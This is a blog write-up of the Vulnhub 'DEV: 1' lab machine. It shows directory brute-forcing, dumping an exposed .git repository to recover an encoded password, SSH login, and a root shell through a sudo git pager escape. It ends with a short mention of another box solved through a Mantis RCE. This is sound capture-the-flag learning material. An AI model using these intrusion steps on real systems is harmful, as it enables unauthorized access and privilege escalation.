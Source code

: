 ```yaml
---
layout: post
title:  "Vulnhub - DEV: 1"
date:   2020-10-31 21:00:00 +1100
category: hacking
---
```


## Introduction
*Easy level Linux box.  
This box "dev" aims to educate people on common and misconfigurations of a widely used developer tool.  
Use a good wordlist!*

This is [DEV: 1](https://www.vulnhub.com/entry/dev-1,574/) from vulnhub. 

## Ports
We have two ports only, SSH and HTTP on the standard port 80.

## HTTP
We've got a hint that we're looking for a development tool and we need a decent wordlist. I run gobuster with a big list:

``
root@kali:/opt/vulnhub/dev# gobuster dir -u http://192.168.1.137 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt 
``

And it turns up a **/wwwdev** directory. Within that is our target, **.git**.

## GIT
I use git sometimes so I am somewhat familiar with it; however I saw IPPSEC use a nice tool called [git-dumper](https://github.com/arthaud/git-dumper) which I have never used before. I decided to give it a try. I clone the repo into **/opt/git-dumper** and run:

``
root@kali:/opt/vulnhub/dev# /opt/gitdumper/git-dumper.py http://192.168.1.137/wwwdev/ repo
``

It works perfectly. Checking *git log* we see:

>root@kali:/opt/vulnhub/dev/repo# git log  
commit 8072e242fdc09129cac94c569f6cc5ee0aef8059 (HEAD -> main, origin/main)  
Author: User <f3dai@dev.local>  
Date:   Mon Oct 12 23:44:09 2020 +0100  
    updated: removed file  
commit f9e2a3675f4b2f2196276fd11cac9d210a2fc737  
Author: User <f3dai@dev.local>  
Date:   Mon Oct 12 23:43:00 2020 +0100  
    First commit :)

So we only have two commits, and the second one removed a file. Let's check the first one:

``
root@kali:/opt/vulnhub/dev/repo# git checkout f9e2a3675f4b2f2196276fd11cac9d210a2fc737
``

Once we've done that we have a file called **cred** with the contents:

>D1yceX0jgixhk (slime)

This is a vignere cipher encoded password with the key *slime*; it decodes to:

>L1nusT0rvalds

With this, we can SSH in as **f3dai** (our git user from above).

## Privsec
Once we're in as *f3dai*, we find out he can run *git* as root with sudo, which is a nice touch. [GTFOBins](https://gtfobins.github.io/gtfobins/git/#sudo) shows how we can take advantage of that:

{% highlight shell %}
f3dai@dev:~$ sudo -l
Matching Defaults entries for f3dai on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User f3dai may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/git
	
f3dai@dev:~$ sudo -u root /usr/bin/git -p help config
// then
!/bin/sh
# cd /root
# ls
root.txt
# cat root.txt
37c24213df088bb485e97b7ce1929e09
{% endhighlight %}

This wasn't overly complicated and didn't take too long but I enjoyed it; thanks **f3da1**.


## A parting note
I also completed [Praying: 1](https://www.vulnhub.com/entry/praying-1,575/) from Vulnhub but I'm not going to write it up as a separate entry. Foothold was via a PHP webapp called *Mantis* with an unauthenticated RCE vulnerability, then we escalated through three users by finding their credentials, and then privesc was the same as [Funbox next level](https://blog.gibbons.digital/hacking/2020/10/01/nextlevel.html) with **dd**. 
